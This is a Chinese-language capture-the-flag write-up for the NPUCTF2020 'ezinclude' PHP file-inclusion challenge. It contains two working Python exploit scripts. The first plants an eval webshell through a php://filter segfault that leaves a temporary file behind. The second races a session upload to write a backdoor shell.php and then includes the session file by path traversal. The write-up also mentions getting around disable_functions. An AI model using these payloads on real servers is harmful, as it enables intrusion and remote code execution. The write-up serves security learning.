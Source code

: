 # [NPUCTF2020]ezinclude 文件包含两大 getshell方式

[PHP LFI 利用临时文件 Getshell 姿势 | 码农家园](https://www.codenong.com/cs106498971/) 

说一下我的思路吧

robots没有

扫描发现存在 dir.php

然后404.html 报错

apache2.18 ubuntu

这个又正好存在漏洞 所以前面全去看这个了

结果根本不是这样做。。。

正确的思路是这样



<img src="https://i-blog.csdnimg.cn/blog_migrate/9e35ecb4cab0fa40e6cd19815d2bb55e.png" alt="" style="max-height:183px; box-sizing:content-box;" />


发现变量 认为是 name和 pass传递参数

或者通过爆破 但是太慢了

我们可以抓包测试



<img src="https://i-blog.csdnimg.cn/blog_migrate/ce8308e027bb650a4399291c3d568eb8.png" alt="" style="max-height:323px; box-sizing:content-box;" />


发现了 hash  因为提示我们MD5所以我们需要注意

然后我们传递一个 ?name=2



<img src="https://i-blog.csdnimg.cn/blog_migrate/3d600364e216d695090ee6816e45f673.png" alt="" style="max-height:356px; box-sizing:content-box;" />


发现hash变了 这里我们就多半能确定 cookie是我们的pass

因为 name改变 cookie也改变 然后都是hash值

所以我们pass=hash一下看看

```cobol
GET /?name=2&pass=616bcf60c47829c8e770b19fd45336d9 HTTP/1.
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d3eab1972cd04da4d619d4827539e399.png" alt="" style="max-height:383px; box-sizing:content-box;" />


我们去访问看看

这里全程只能 bp抓包

不然会跳转 404



<img src="https://i-blog.csdnimg.cn/blog_migrate/b6232b4e8566c085f513d4e7276258a1.png" alt="" style="max-height:542px; box-sizing:content-box;" />


发现 include了 文件包含 我们去看看 用伪协议读取一下文件吧

首先是 404.html 一点用都没有。。。

我们看看 dir.php

```php
<?php
var_dump(scandir('/tmp'));
?>
```

我们看看index

```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
	echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
	</script>
';
}else{
	setcookie("Hash",md5($secret.$name),time()+3600000);
	echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

okok 做到这里 一点思路都没得了 只有 dir.php存在输出 多半是通过 dir.php输出内容 那我要怎么实现啊。。。。。

看wp吧

学到了学到了

 [PHP LFI 利用临时文件Getshell_双层小牛堡的博客-CSDN博客](https://blog.csdn.net/m0_64180167/article/details/133757009?spm=1001.2014.3001.5501) 

这里是我学习到的知识点

我们开始

## 1. php7 Segment Fault

我们首先抓包的时候可以可以发现

<img src="https://i-blog.csdnimg.cn/blog_migrate/e96ceb381735b76b34d9a19d8e7f162c.png" alt="" style="max-height:491px; box-sizing:content-box;" />


存在 php 7 这里存在一个漏洞

如果用 过滤器string.strip_args 的时候 选择一个文件

并且我们可以通过fuzz或者dir.php查找

exp

```cobol
#python 2.7
 
import requests
from io import BytesIO
 
url1 = "http://852f2c43-71c0-4238-bc32-a0ed26a77477.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=dir.php"
 
files = {'file': BytesIO('<?php eval($_REQUEST[1]);?>')}
 
re = requests.post(url=url1, files=files, allow_redirects=False)
 
url2 = "http://852f2c43-71c0-4238-bc32-a0ed26a77477.node4.buuoj.cn:81/dir.php"
 
re2 = requests.get(url=url2)
 
print
re2.text
```

但是很奇怪 我根本在web中无法实现 所以我用蚁剑链接



<img src="https://i-blog.csdnimg.cn/blog_migrate/0a7cefb81a88775f8bc1d075a0ae54f8.png" alt="" style="max-height:181px; box-sizing:content-box;" />


但是奇了怪了 无法执行命令 啥都没有 可能被disable_function 了

我们用插件bypass



<img src="https://i-blog.csdnimg.cn/blog_migrate/30df8aa89976d86c8eb894cffdaaa896.png" alt="" style="max-height:499px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/7137ccf92b551c65495efcca7bef5c5c.png" alt="" style="max-height:576px; box-sizing:content-box;" />


错的 看wp才知道是在phpinfo中

正好也有插件可以查看phpinfo



<img src="https://i-blog.csdnimg.cn/blog_migrate/699b3014db6b87a1de53385006b17842.png" alt="" style="max-height:597px; box-sizing:content-box;" />


获取flag

## 2.session get shell

这里不知道有没有开启session 但是文件包含题目 可以试试看

exp

```cobol
import io
import sys
import requests
import threading
 
sessid = 'shell'
 
 
def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://852f2c43-71c0-4238-bc32-a0ed26a77477.node4.buuoj.cn:81/',
            data={
                "PHP_SESSION_UPLOAD_PROGRESS": "<?php phpinfo();fputs(fopen('shell.php','w'),'<?php @eval($_POST[mtfQ])?>');?>"},
            files={"file": ('q.txt', f)},
            cookies={'PHPSESSID': sessid}
        )
 
 
def READ(session):
    while True:
        response = session.get(
            f'http://852f2c43-71c0-4238-bc32-a0ed26a77477.node4.buuoj.cn:81/flflflflag.php?file=../../../../../../../../tmp/sess_{sessid}')
        # print('[+++]retry')
        # print(response.text)
 
        if 'flag' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            sys.exit(0)
 
 
with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session,))
    t1.daemon = True
    t1.start()
 
    READ(session)
```

一直跑就出来了 因为返回了phpinfo

里面存在flag



<img src="https://i-blog.csdnimg.cn/blog_migrate/18289ec248c4c48825e8d7170cb1b48a.png" alt="" style="max-height:148px; box-sizing:content-box;" />